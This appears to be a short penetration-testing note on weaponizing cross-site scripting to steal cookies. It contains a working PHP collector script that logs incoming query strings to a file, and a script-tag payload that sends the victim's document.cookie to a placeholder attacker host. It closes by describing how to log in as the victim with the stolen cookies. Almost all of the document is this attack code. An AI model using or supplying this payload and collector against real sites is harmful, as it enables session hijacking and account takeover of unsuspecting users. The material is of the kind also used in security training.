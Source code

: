 ```yaml
---
description: Weaponizing XSS
---
```


# XSS cookie stealing

## get.php 

To store cookie on machine.

```php
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

# opens a logfile where we save the query
$fp = fopen('jar.txt','a');

fwrite($fp, $ip.' '.$browser."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```

Using the PHP file above, if we make a GET request with the following param below, the `hereismydata` value gets stored in the `jar.txt` defined above 

```text
attacker.site/get.php?test=hereismydata
```

Using this, we can weaponize the XSS by crafting a payload to send the victim's cookies into the website. And then navigating to `attacker.site/jar.txt` we will see anyone who has cookies stolen.

```javascript
<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
//the escape function helps prevent breaking the statement
```

If a victim triggers the XSS payload, the private cookies would be stolen and sent to the jar.txt file.

![](../.gitbook/assets/image%20%2859%29.png)

We can then use the cookies and impersonate as the user to login.


